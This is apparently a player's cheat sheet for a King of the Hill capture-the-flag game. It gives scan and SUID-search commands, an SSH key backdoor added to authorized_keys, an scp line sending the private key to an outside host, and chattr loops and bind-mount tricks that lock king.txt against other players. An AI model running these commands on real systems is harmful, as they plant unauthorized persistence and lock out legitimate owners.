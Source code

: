 NMAP:
```
nmap -p- --min-rate 10000 10.10.147.185
```

```
nmap -p .. -sCV ..
```



To find SUID Binaries :
```
find / -perm /4000 2>/dev/null

```


## SSH KEY GEN

##### 1. Create the .ssh directory (if it doesn't exist)
```
mkdir -p ~/.ssh
```

##### 2. Generate an SSH key pair
```
ssh-keygen -t rsa -b 4096 -f ~/.ssh/id_rsa -N ""
```

##### 3. Add the public key to authorized_keys for passwordless login
```
cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
```

##### 4. Set correct permissions for authorized_keys
```
chmod 600 ~/.ssh/authorized_keys
```



```
scp ~/.ssh/id_rsa pradyun@10.6.13.240:/home/pradyun/Music
```










# PROTECT KING FILE

```
while [ 1 ]; do chattr -ia /root/king.txt 2>/dev/null; echo -n Pradyun >| /root/king.txt 2>/dev/null; chattr +ia /root/king.txt 2>/dev/null; done &
```

Mount King 

```
sudo lessecho Pradyun > /root/king.txt; sudo dd if=/dev/zero of=/dev/shm/root_f bs=1000 count=100; sudo mkfs.ext3 /dev/shm/root_f; sudo mkdir /dev/shm/sqashfs; sudo mount -o loop /dev/shm/root_f /dev/shm/sqashfs/; sudo chmod -R 777 /dev/shm/sqashfs/; sudo lessecho Pradyun > /dev/shm/sqashfs/king.txt; sudo mount -o ro,remount /dev/shm/sqashfs; sudo mount -o bind /dev/shm/sqashfs/king.txt /root/king.txt; sudo rm -rf /dev/shm/root_f

```




# REVOKE CHATTR

```
lsattr /root/king.txt
```


```
sudo chattr -i /root/king.txt   # Remove immutable flag
```

```
sudo chattr -a /root/king.txt   # Remove append-only flag
```
